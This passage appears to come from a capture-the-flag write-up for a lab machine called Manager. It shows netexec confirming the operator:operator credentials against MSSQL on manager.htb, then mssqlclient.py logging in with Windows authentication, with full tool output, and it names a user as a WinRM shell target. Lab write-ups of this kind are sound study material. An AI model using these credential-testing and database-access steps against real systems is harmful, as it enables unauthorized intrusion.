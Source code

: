 ![image*](/img/image-20240313065640502.png)

Raven is a good target to get shell over WinRM. Nothing else seems
interesting.

#### MSSQL

The creds work for the database as well:



    oxdf@hacky$ netexec mssql manager.htb -u operator -p operator
    MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
    MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator 



`mssqlclient.py` will connect, using the `-windows-auth` flag to say
that it's using the OS authentication, not creds within the DB:



    oxdf@hacky$ mssqlclient.py -windows-auth manager.htb/operator:operator@manager.htb
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (MANAGER\Operator  guest@master)>
